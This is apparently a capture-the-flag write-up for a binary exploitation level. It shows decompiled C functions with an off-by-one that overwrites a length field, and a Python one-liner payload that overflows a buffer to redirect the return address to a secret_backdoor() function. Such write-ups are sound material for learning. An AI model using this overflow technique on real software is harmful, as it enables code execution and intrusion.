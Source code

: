 # LEVEL 09

* after decompiling the binary:
	- we that it read 128 char from stdin and write 41 char start from username + 140,
    so that means the 41th char can override the variable len in handle_msg.
		```c
		void set_username(char *data)
        {
            fgets(input, 128, stdin);
            idx = 0;
            while (idx <= 40 && input[idx] != 0)
            {
                (data + 140)[idx] = input[idx];
                idx++;
            }
        }
		```

	- here it read 1024 char from stdin and write `len` variable from `handle_msg()` of chars into data,
    so that means we can override the return address of `handle_msg()`
		```c
        void set_msg(char *data)
        {
            char input[1024];

            fgets(input, 1024, stdin);
            strncpy(data, input, ((int*)data)[45]);
        }
		```
 
* to exploit the program:
	- write 40 simple char + char(255) + "\n"
	- write 200 simple char + "\x8c\x48\x55\x55\x55\x55\x00\x00"
    ```sh
        python -c 'print "a" * 40 + "\xff"; print "b"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"' > input
    ```

#### explinations:
- `"\x8c\x48\x55\x55\x55\x55\x00\x00"` -> address of `secret_backdoor()`
- `200`: distance from `data` variable to the return address 
